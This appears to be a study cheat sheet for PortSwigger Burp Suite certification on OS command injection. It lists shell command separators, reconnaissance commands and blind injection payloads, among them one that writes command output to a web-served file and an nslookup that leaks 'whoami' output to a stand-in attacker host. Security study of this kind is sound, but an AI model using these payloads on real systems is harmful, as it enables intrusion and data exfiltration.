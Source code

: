 ##### PortSwigger BurpSuite Certification Summary
# OS Command Injection
Execute arbitrary command line functions by altering input that is used as an argument.

#### Command Line Cheat Sheet

<table>

| **Universal**   |
|------------|
| &  |
| \| |
| >  |
| >> |
| &&  |
| \|\|  |


|**Description** | **Unix**   | **Windows**   |
|-|------------|---------------|
| current user | whoami     | whoami        |
| OS version | uname -a   | ver           |
| network interfaces | ifconfig   | ipconfig /all |
| active connections| netstat -an | netstat -an   |
| running processes | ps -ef     | tasklist      |
| command separation like ENTER | ; | |
| inline command | \`cmd\` | |
| inline command | $(cmd) | |
 </table>

#### Blind OSCI
Often the output cannot be seen, so a time delay can used: `& ping -c 10 127.0.0.1 &`. However, this works only for sequential handling of commands.

Output can also be written to files and then accessed from the browser:
  * At the vulnerable place do `||whoami>/var/www/images/output.txt||`
  * Change the image fetching request to get the `output.txt` file instead of an image

In case statements are handled asynchronously, an out-of-band attack can be useful to check for a CI vulnerability:
  * `nslookup attacker-side-host`
  * `nslookup $(whoami).attacker-side-host`
  * 